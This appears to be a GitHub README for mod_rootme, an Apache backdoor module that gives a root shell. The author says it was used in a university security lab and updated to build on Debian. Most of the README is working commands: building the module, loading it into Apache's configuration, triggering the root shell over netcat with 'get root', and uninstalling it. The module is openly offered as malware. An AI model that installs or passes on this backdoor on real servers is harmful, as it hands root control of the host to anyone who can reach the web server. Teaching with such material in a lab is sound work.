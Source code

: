 # mod_rootme

mod_rootme is a Apache backdoor module that can spawn a root shell.

I used this module while teaching a software security lab.  The module
has been around for a while, but
[the blog](http://blog.danfego.net/2009/10/update-to-mod_rootme/) that
hosted the most recent version seems to have disappeared from the web.
Malware detection programs such as 'rkhunter' and 'unhide' can
trivially detect the presence of mod_rootme, so it should not be too
harmful to have this code in circulation again.

This repository is imported from an old archive I happened to find
from my old class files (mod_rootme-0.4.tar.gz), updated to build on
Debian GNU/Linux 8.0.

See README.old.txt for the original documentation.

## Build instructions

To build and test on a Debian/Ubuntu system, you would need apache2
and apache2-dev.  Run 'make' and 'sudo make install' to build the
module, and enable it in httpd configuration, perhaps like so:

```
sudo sh -c \
'echo "LoadModule rootme_module \
/usr/lib/apache2/modules/mod_rootme.so" | sudo tee > \
/etc/apache2/mods-available/rootme.load'
```

Now to enable the module:

```
sudo a2enmod rootme
sudo service apache2 restart
```

To check that the root shell is indeed available:

```
nc localhost 80
get root
id
```

To uninstall the module:

```
sudo a2dismod rootme
sudo rm /usr/lib/apache2/modules/mod_rootme.so
sudo service apache2 restart
```
